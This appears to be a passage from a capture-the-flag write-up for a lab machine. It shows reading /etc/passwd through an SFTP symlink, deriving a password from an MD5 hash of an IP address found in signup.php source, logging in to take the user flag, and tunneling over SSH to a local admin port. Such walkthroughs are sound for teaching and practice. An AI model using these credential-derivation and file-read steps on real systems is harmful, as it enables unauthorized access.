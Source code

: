 The `signup.php` file is interesting because it contains the logic used to generate the username and password:

```php
<?php
function username() { $ip = $_SERVER['REMOTE_ADDR']; return "ots-" . substr(str_replace('=','',base64_encode(substr(md5($ip),0,8))),3); }
function password() { $ip = $_SERVER['REMOTE_ADDR']; return substr(md5($ip),0,8); }
?>
```

I can grab the `/etc/passwd` file by symlinking to it directly:

```
sftp> ln -s /etc/passwd passwd
```

The file contains another user with the `127.0.0.1` IP address:

```
ots-yODc2NGQ:x:999:999:127.0.0.1:/home/web/ots-yODc2NGQ:/bin/false
ots-4NzkzMDE:x:1001:1001:10.10.14.23:/home/web/ots-4NzkzMDE:/bin/false
```

I have the source code of the signup page so I can find what the password is for this user. As shown previously, the password is a portion of the MD5 hash of the user IP address:

```
php > echo "ots-" . substr(str_replace('=','',base64_encode(substr(md5("127.0.0.1"),0,8))),3);
ots-yODc2NGQ
php > echo substr(md5("127.0.0.1"),0,8);
f528764d
```

Password: `f528764d`

I can SFTP in with that account and get the user flag:

```
# sftp ots-yODc2NGQ@10.10.10.133
ots-yODc2NGQ@10.10.10.133's password:
Connected to ots-yODc2NGQ@10.10.10.133.
sftp> ls
public_html  user.txt
sftp> get user.txt
Fetching /user.txt to user.txt
```

```
# cat user.txt
93a4ce...
```

### Pivoting to the local administration page

I'll use SSH tunneling to get access to port 60080 on the server. But I need to pass the `-N` flag to SSH so it does try to spawn a shell (because only SFTP is enabled).

```
# ssh -L 60080:127.0.0.1:60080 -N ots-yODc2NGQ@10.10.10.133
ots-yODc2NGQ@10.10.10.133's password:
```
